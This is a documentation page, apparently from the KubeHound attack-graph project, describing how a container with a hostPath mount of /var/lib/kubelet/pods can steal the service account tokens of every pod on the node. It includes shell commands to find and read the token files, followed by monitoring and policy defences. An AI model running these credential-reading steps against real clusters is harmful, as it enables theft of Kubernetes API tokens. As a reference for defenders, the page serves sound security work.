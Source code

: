 ```yaml
---
title: EXPLOIT_HOST_TRAVERSE
---
```


<!--
id: EXPLOIT_HOST_TRAVERSE
name: "Steal service account token through kubelet host mount"
mitreAttackTechnique: T1552 - Unsecured Credentials
mitreAttackTactic: TA0006 - Credential Access
-->

# EXPLOIT_HOST_TRAVERSE

| Source                          | Destination                     | MITRE ATT&CK                                                               |
| ------------------------------- | ------------------------------- | -------------------------------------------------------------------------- |
| [Volume](../entities/volume.md) | [Volume](../entities/volume.md) | [Unsecured Credentials, T1552](https://attack.mitre.org/techniques/T1552/) |

This attack represents the ability to steal a K8s API token from a container via access to a mounted parent volume of the `/var/lib/kubelet/pods` directory.

## Details

An attacker in a container with access to the `/var/lib/kubelet/pods` directory or any parent directory of the node via a `hostPath` mount, even readonly, can steal the serviceaccount access tokens of all running pods to perform actions in the K8s API. 

## Prerequisites

A volume containing K8s API tokens is mounted into a container. The canonical case is a node root filesystem mounted readonly via a host path volume mount.

## Checks

Check for mounted directories that contain the service account token paths:

```bash
# The service account tokens are tmpfs mounts themselves so it is very apparent when they are present
cat /proc/self/mounts

# ...
/dev/vda1 /hostpods ext4 ro,relatime,discard 0 0
tmpfs /hostpods/063c7aae-1965-4824-b4f5-a8e7cdc2d224/volumes/kubernetes.io~projected/kube-api-access-zhzgh tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/648e72af-34a8-4be6-8e7a-9cfac7e7fd94/volumes/kubernetes.io~projected/kube-api-access-hkh28 tmpfs rw,relatime,size=51200k 0 0
tmpfs /hostpods/b8a7238c-83eb-4392-b055-ad08f8b8a218/volumes/kubernetes.io~projected/kube-api-access-xl5fz tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/5edf50d2-747c-45b2-8b40-210f1bfee866/volumes/kubernetes.io~projected/kube-api-access-2l9sx tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/f80874b0-1a52-4175-9705-550b75743adf/volumes/kubernetes.io~projected/kube-api-access-8ms4p tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/2e2811f3-cfb4-41ea-ae51-8e337357e0d0/volumes/kubernetes.io~projected/kube-api-access-7p2hf tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/37d46741-de8b-45b3-a0a4-874529bb4032/volumes/kubernetes.io~projected/kube-api-access-g8wqm tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/05ae5550-ac58-47a3-b466-c09944240062/volumes/kubernetes.io~projected/kube-api-access-pdqmc tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/3a55670f-a784-4d3c-8231-5bf90c54fc87/volumes/kubernetes.io~projected/kube-api-access-2bf8s tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/b40f8657-5a06-49ed-9128-b807de3281e5/volumes/kubernetes.io~projected/kube-api-access-hjbzn tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/4eb7074e-133f-4ecc-8fa4-a686cf46ba6d/volumes/kubernetes.io~projected/kube-api-access-wqsqv tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/23dab617-9d86-4658-823b-12aaab1f0edc/volumes/kubernetes.io~projected/kube-api-access-xd5fl tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/300cbaef-f0aa-441b-b22d-154bfa31901a/volumes/kubernetes.io~projected/kube-api-access-5xwr4 tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/e949b9f2-304b-4664-93e5-d0ca79d69448/volumes/kubernetes.io~projected/kube-api-access-xrbr4 tmpfs rw,relatime,size=15340756k 0 0
# ...
```

## Exploitation

If all (or part of) the host filesystem is mounted (/host in our example), steal access tokens for ALL pods running on the node:

```bash
ls /host/var/lib/kubelet/pods/0dc76586-c18c-4db6-b5f2-019f270d3621
# containers  etc-hosts  plugins	volume-subpaths  volumes

find /host/var/lib/kubelet/pods/ -name token -type l 2>/dev/null
#/host/var/lib/kubelet/pods/5a9fc508-8410-444a-bf63-9f11e5979bee/volumes/kubernetes.io~projected/kube-api-access-225d6/token
#/host/var/lib/kubelet/pods/a1176593-34a2-43e6-8bdd-ed10fa148fe7/volumes/kubernetes.io~projected/kube-api-access-ng6px/token
#/host/var/lib/kubelet/pods/10b90d62-6b16-4aa7-9e72-75f18dcca5a8/volumes/kubernetes.io~projected/kube-api-access-j7dsp/token
#/host/var/lib/kubelet/pods/dfbf38ad-2e92-44e0-b05b-8859350b6ea5/volumes/kubernetes.io~projected/kube-api-access-c89ff/token
```

See [IDENTITY_ASSUME](./IDENTITY_ASSUME.md#exploitation) for how to use a captured token.

## Defences

### Monitoring

+ Monitor for access to well-known K8s secrets paths from unusual processes.

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with a `hostPath` mount of parents of `/var/lib/kubelet/pods` or other sensitive locations.

### Prevent service account token automounting

When a pod is being created, it automatically mounts a service account (the default is default service account in the same namespace). Not every pod needs the ability to access the API from within itself.

From version 1.6+ it is possible to prevent *automounting* of serviceaccount tokens on pods using:

```yaml
apiVersion: v1
kind: ServiceAccount
metadata:
  name: sa1
automountServiceAccountToken: false
```

## Calculation

+ [ExploitHostTraverseToken](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/exploit_host_traverse_token.go)

## References:

+ [The Path Less Traveled: Abusing Kubernetes Defaults (Video)](https://www.youtube.com/watch?v=HmoVSmTIOxM)
+ [The Path Less Traveled: Abusing Kubernetes Defaults (GitHub)](https://github.com/mauilion/blackhat-2019)
+ [Securing Kubernetes Clusters by Eliminating Risky Permissions](https://www.cyberark.com/resources/threat-research-blog/securing-kubernetes-clusters-by-eliminating-risky-permissions)

